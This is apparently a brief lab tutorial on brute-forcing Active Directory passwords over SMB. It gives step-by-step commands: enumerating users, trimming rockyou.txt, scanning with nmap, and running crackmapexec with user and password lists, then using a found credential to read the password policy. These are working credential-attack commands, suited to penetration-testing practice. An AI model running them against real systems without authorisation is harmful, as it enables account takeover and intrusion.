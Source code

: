 
# BruteForcing Domain Passwords



## Step 1

Create a linux base machine and clone it and take a snapshot of it as a fresh intall.

Step 2

Create a txt file of all users in the linux, you can check all the username in the workstation by typing ( net user /domain).

Step 3

Save the first 1000-2000 lines of rockyou.txt files in the passwords.txt file and save both the files in the same directory.

Step 4

run a nmap scan to check all the ports running (Ex: nmap -Pn 192.168.16.155).

Step 5

Run crackmapexec -h (to check all the commands)
from the above scan we can see port 445 is open, which is smb so we can run command like this 

(Ex: crackmapexec smb targets.txt -u users.txt -p passwords.txt --continue-on-success | grep '[+]')

(Note: targets.txt contains ip address of the server you can add ip ad of the other also.)

Save the found credentials in a txt file.
After the credentials are found you can do many things like checking the other users and password-policies, etc..

(Ex: crackmapexec smb targets.txt - u abrown -p bubbles --pass-pol)

